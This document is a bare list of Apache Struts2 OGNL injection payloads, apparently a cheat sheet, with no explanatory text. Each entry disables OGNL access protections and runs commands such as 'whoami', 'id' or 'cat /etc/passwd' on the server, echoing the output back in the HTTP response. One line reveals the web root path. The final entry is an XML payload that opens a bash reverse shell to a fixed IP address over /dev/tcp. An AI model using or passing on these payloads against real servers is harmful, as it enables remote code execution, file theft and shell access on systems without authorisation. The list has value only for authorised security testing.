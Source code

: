 * ?debug=command&expression=#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
* %{#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new+java.io.InputStreamReader(#b),#d=new+java.io.BufferedReader(#c),#e=new+char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new+java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
* ?xxx=${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println('dbapp='+new java.lang.String(#d)),#out.close()}
* ?x=${(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec("id"))}
* ${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}.action
* redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
* redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
* xxx.action?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#res=@org.apache.struts2.ServletActionContext@getResponse(),#res.setCharacterEncoding(#parameters.encoding[0]),#w=#res.getWriter(),#s=new+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()).useDelimiter(#parameters.pp[0]),#str=#s.hasNext()?#s.next():#parameters.ppp[0],#w.print(#str),#w.close(),1?#xx:#request.toString&pp=\\A&ppp= &encoding=UTF-8&cmd=idContent-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
* "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
* %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
* <command> <string>bash</string> <string>-c</string> <string>bash -i >&amp; /dev/tcp/192.168.244.128/777 0>&amp;1</string> </command>